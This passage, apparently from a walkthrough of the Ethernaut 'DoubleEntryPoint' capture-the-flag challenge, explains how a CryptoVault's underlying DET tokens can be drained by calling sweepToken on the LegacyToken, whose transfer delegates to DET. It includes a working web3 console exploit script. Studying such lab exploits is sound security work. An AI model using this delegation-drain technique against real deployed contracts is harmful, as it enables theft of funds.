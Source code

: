 ```solidity
        forta.notify(player, msg.data);

        // Continue execution
        _;

        // Check if alarms have been raised
        if(forta.botRaisedAlerts(detectionBot) > previousValue) revert("Alert has been triggered, reverting");
    }

    function delegateTransfer(
        address to,
        uint256 value,
        address origSender
    ) public override onlyDelegateFrom fortaNotify returns (bool) {
        _transfer(origSender, to, value);
        return true;
    }
}
```

`player` has to find the bug in the `CryptoVault` and create a Forta bot to protect it from being drained.

First, let's figure out the exploit that allows to drain the underlying (DET) tokens. If you see the `sweepToken()` method  it can be seen that it restricts sweeping the underlying tokens with a `require` check - as expected. But take a look at `LegacyToken`'s `transfer()` method:
```solidity
if (address(delegate) == address(0)) {
    return super.transfer(to, value);
} else {
    return delegate.delegateTransfer(to, value, msg.sender);
}
```

Looks like it actually calls `delegateTransfer()` method of some `DelegateERC20` contract. But this `DelegateERC20` is nothing but the implementation of the underlying (`DET`) token itself! And `delegateTransfer()` simply transfers the tokens according to given parameters. The only restriction `delegateTransfer()` puts is that `msg.sender` must be the LegacyToken (`delegatedFrom` address) contract.

So we can indirectly sweep the underlying tokens through `transfer()` of `LegacyToken` contract. We simply call `sweepToken` with address of `LegacyToken` contract. That in turn would make the `LegacyContract` to call the `DoubleEntryPoint`'s (DET token) `delegateTransfer()` method. 

```js
vault = await contract.cryptoVault()

// Check initial balance (100 DET)
await contract.balanceOf(vault).then(v => v.toString()) // '100000000000000000000'

legacyToken = await contract.delegatedFrom()

// sweepTokens(..) function call data
sweepSig = web3.eth.abi.encodeFunctionCall({
    name: 'sweepToken',
    type: 'function',
    inputs: [{name: 'token', type: 'address'}]
}, [legacyToken])

// Send exploit transaction
await web3.eth.sendTransaction({ from: player, to: vault, data: sweepSig })

// Check balance (0 DET)
await contract.balanceOf(vault).then(v => v.toString()) // '0'
```